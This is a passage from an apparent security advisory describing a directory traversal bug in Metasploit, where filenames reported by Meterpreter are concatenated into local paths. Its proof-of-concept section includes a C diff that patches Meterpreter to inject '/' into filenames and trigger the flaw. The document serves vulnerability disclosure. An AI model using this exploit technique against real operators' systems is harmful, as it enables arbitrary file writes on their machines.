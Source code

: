 The construction of `dst_item` by means of simple concatenation (using the
untrusted filenames as reported by Meterpreter) gives Meterpreter the
opportunity to induce directory traversal on the machine running Metasploit.

### POC

1\. Patch the Windows Meterpreter source code to produce a malicious Meterpreter

We will produce a malicious Windows Meterpreter that returns malformed
responses to Metasploit.

Note that the patching and execution of a modified Meterpreter is just one
method by which the vulnerability can be triggered. Importantly, exploitation
does _not_ require the victim's Metasploit Framework to be modified. The
vulnerability is within Metasploit itself.

To trigger the bug, Meterpreter needs to tell Metasploit that there is a file
on disk with a filename containing the character sequence `../`. As `/` is an
illegal character on most (all?) filesystems, we will patch Meterpreter to
replace all instances of the character `Z` within filenames with the character
`/`

Patch the `fs_ls` function within
`metasploit-payloads/c/meterpreter/source/extensions/stdapi/server/fs/fs_win.c`
as follows:

```text
diff --git a/c/meterpreter/source/extensions/stdapi/server/fs/fs_win.c b/c/meterpreter/source/extensions/stdapi/server/fs/fs_win.c
index 11c49e7..228c3b8 100644
--- a/c/meterpreter/source/extensions/stdapi/server/fs/fs_win.c
+++ b/c/meterpreter/source/extensions/stdapi/server/fs/fs_win.c
@@ -91,10 +91,22 @@ int fs_ls(const char *directory, fs_ls_cb_t cb, void *arg)

                char *filename = wchar_to_utf8(data.cFileName);
                char *short_filename = wchar_to_utf8(data.cAlternateFileName);
                char path[FS_MAX_PATH];

+               for (size_t i = 0; i < strlen(filename); i++) {
+                 if (filename[i] == 'Z') {
+                   filename[i] = '/';
+                 }
+               }
+
+               for (size_t i = 0; i < strlen(short_filename); i++) {
+                 if (short_filename[i] == 'Z') {
+                   short_filename[i] = '/';
+                 }
+               }
+
                if (baseDirectory) {
                        _snprintf(path, sizeof(path), "%s\\%s", baseDirectory, filename);
                } else {
                        _snprintf(path, sizeof(path), "%s", filename);
                }
```
